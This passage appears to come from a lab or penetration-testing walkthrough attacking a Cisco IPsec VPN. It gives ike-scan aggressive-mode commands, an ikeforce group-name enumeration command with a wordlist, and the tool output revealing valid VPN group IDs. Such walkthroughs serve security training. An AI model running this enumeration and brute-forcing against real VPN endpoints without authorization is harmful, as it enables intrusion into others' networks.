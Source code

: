 Have a nice day!"

A VPN? If I look into network diagram we can notice that there is a cisco router inside the network, so I can try to hack it. I use ikeforce to bruteforce the VPN login, but first of all I need to use ikescan. Download the tools: https://github.com/SpiderLabs/ikeforce and https://github.com/royhills/ike-scan.

Install ike-scan and type this command on the terminal:

sudo ike-scan -M -A 192.168.101.7

The parameter -M it's for a more readable output, while the -A parameter stands for aggressive mode. This is the output:

Starting ike-scan 1.9.4 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)

Ending ike-scan 1.9.4: 1 hosts scanned in 2.438 seconds (0.41 hosts/sec). 0 returned handshake; 0 returned notify

It seems to doesn't work, but if I specify a random group with the following command:

sudo ike-scan -M --id=foobar -A 192.168.101.7 I get this output:

Starting ike-scan 1.9.4 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/) 192.168.101.7 Aggressive Mode Handshake returned

HDR=(CKY-R=ca9bf46ccd460623) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(20 bytes) ID(Type=ID_IPV4_ADDR, Value=172.16.0.100) Hash(20 bytes) VID=12f5f28c457168a9702d9fe274cc0100 (Cisco Unity) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) VID=4048b7d56ebce88525e7de7f00d6c2d3c0000000 (IKE Fragmentation) VID=1f07f70eaa6514d3b0fa96542a500100 (Cisco VPN Concentrator)

Ending ike-scan 1.9.4: 1 hosts scanned in 0.218 seconds (4.59 hosts/sec). 1 returned handshake; 0 returned notify

What information I need? Enc=3DS, Hash=SHA1, Group=2:modp1024, Auth=PSK. Now I can use ikeforce to enumerates the groups of VPN. I'm using the default group wordlist located into ikeforce directory with -w parameter. We need to use -t parameter to specify encryption type, hash, group and authentication method that I found. There is a table into the github readme of ikeforce:

sudo ./ikeforce.py 192.168.101.7 -e -w wordlists/groupnames.dic -t 5 2 1 2

This is the output:

[+]Program started in Enumeration Mode [+]Checking for possible enumeration techniques Analyzing initial response. Please wait, this can take up to 30 seconds...

[+]Cisco Device detected [-]Not vulnerable to DPD group name enumeration [+]Device is vulnerable to multiple response group name enumeration Restarting...

[+]Using New Cisco Group Enumeration Technique Press return for a status update [*] Correct ID Found: DefaultL2LGroup. However this Group/ID does not have a PSK associated with it. Continuing...

[*] Correct ID Found: DefaultRAGroup. However this Group/ID does not have a PSK associated with it. Continuing...

[*] Correct ID Found: DefaultWEBVPNGroup. However this Group/ID does not have a PSK associated with it. Continuing...

[*]Correct ID Found: vpn
